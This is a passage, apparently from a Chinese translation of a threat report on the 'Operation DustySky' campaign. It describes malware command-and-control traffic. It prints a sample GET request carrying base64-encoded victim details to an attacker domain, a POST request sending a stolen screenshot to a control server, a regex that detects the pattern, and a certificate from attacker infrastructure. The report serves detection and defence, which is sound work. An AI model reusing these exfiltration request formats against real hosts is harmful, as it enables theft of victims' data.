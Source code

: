 GET请求中URL的另一个示例：

```shell
    http://ra.goaglesmtp.co.vu/NSR.php?Pn=MWw1bEoxVDJqQiB8IFBTUFVCV1M&fr=&GR=REFGQksoTlNSKTxicj4gMjAxNS0xMS0wNA&com=IDxicj4gIDxicj4g&ID=13327920924134561851231757518321517760252DAFBK&o=TWljcm9zb2Z0IFdpbmRvd3MgNyBIb21lIFByZW1pdW0g&ho=cmEuZ29hZ2xlc210cC5jby52dQ==&av=&v=704
```

<img src = "Operation DustySky_20.png" width = 80%>

以下正则表达式与通信模式匹配：

```js
    \/[A-Za-z]{2,5}\.php\?(?:(Pn|fr|GR|com|ID|o|ho|av|v)=[A-Za-z0-9\/=+]*={0,2}&?){5,9}
```

作为POST请求发送到命令和控制的被盗信息：

```shell
    POST /RaR.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: 1042541562231131292551331782259622162135190107BK
    Host: down.supportcom.xyz
    Content-Length: 109127
    Expect: 100-continue

    ke=iVBORw0KGgoAAAANSUhEUgAAAyAAAAJYCAYAAACadoJwAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEh....
    ID=1042541562231131292551331782259622162135190107BK&
    N=Screen-2015-10-06_05-15-34-PM.png
    HTTP/1.1 100 Continue
```

## SSL和数字证书

最近，命令和控制通信从HTTP变为HTTPS。 HTTPS流量中使用的数字证书可以是自签名的，也可以使用合法的Comodo颁发的证书。

域名'bulk-smtp [.] xyz'由攻击者拥有，使用以下数字证书：

```shell
    Certificate:
        Data:
            Version: 3 (0x2)
            Serial Number:
                35:e5:39:4c:58:e8:4d:f5:fa:9a:3c:25:21:12:01:19
        Signature Algorithm: sha256WithRSAEncryption
            Issuer: C=GB, ST=Greater Manchester, L=Salford, O=COMODO CA Limited,CN=COMODO RSA Domain Validation Secure Server CA
            Validity
                Not Before: Nov 25 00:00:00 2015 GMT
                Not After : Nov 24 23:59:59 2016 GMT
            Subject: OU=Domain Control Validated, OU=PositiveSSL, CN=bulk-smtp.xyz
```

<img src = "Operation DustySky_21.png" width = 60%>
<img src = "Operation DustySky_22.png" width = 60%>

